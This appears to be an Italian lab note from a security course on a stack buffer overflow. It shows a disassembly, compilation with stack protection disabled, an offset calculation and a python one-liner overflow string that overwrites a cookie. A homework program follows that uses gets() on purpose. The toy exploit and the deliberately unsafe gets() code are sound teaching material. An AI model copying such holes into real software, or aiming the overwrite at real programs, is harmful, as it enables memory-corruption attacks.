~~~s
118d:       55                      push   %rbp
118e:       48 89 e5                mov    %rsp,%rbp
1191:       48 83 ec 60             sub    $0x60,%rsp
1195:       48 8d 55 fc             lea    -0x4(%rbp),%rdx
1199:       48 8d 45 a0             lea    -0x60(%rbp),%rax  # <- OFFSET è 96 in decimale
119d:       48 89 c6                mov    %rax,%rsi
11a0:       48 8d 3d 5d 0e 00 00    lea    0xe5d(%rip),%rdi  # 2004 <_IO_stdin_used+0x4>
11a7:       b8 00 00 00 00          mov    $0x0,%eax
11ac:       e8 cf fe ff ff          callq  1080 <printf@plt>
11b1:       48 8d 45 a0             lea    -0x60(%rbp),%rax
11b5:       48 89 c7                mov    %rax,%rdi
11b8:       b8 00 00 00 00          mov    $0x0,%eax
11bd:       e8 ce fe ff ff          callq  1090 <gets@plt>
11c2:       8b 45 fc                mov    -0x4(%rbp),%eax
11c5:       3d 44 43 42 41          cmp    $0x41424344,%eax
11ca:       75 0c                   jne    11d8 <main+0x4f>
11cc:       48 8d 3d 49 0e 00 00    lea    0xe49(%rip),%rdi  # 201c <_IO_stdin_used+0x1c>
11d3:       e8 98 fe ff ff          callq  1070 <puts@plt>
11d8:       b8 00 00 00 00          mov    $0x0,%eax
11dd:       c9                      leaveq 
11de:       c3                      retq   
11df:       90                      nop
~~~

## Come si risolve? 
1. Compilo `gcc -g -z execstack -fno-stack-protector -o a.out a.c`.
2. Controllo con `objdump -M intel -d file_binario` l'offset che serve.
3. Trovato l'offset (96 bytes) devo togliere i 4 byte di `cookie` perché cookie deve essere una stringa fatto così `"ABCD"`, quindi l'offset è di 92 = 96-4. 
   
   NOTE: Stringa deve essere in LITTLE-ENDIAN, quindi "DCBA" e non "ABCD".

4. Quindi, la stringa è fatta così: `python -c "print('A'*92+'DCBA')"`. Cioè una stringa con 92 A seguito dalla nostra stringa "DCBA".

Questo è possibile perché la funzione `gets()` non controlla la dimensione dell'input.

Per evitare stack smashing compilatore inverte l'ordine. In questo modo andiamo riscrivere dati del sistema cosi il sistema se ne accorge e manda il segnale `Segmentation Fault`.

Flag da mettere per **disabilitare stack smashing** è: `-fno-stack-protector`.

## Esercizio 2 - da fare a casa
~~~c
#include <stdio.h>

int main(){
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if(cookie == 0x01020305)
        printf("You Win!\n");
}
// Hint - sovrascrivere il return address in (little endian), quando main termina salta alla istruzione del printf.
~~~
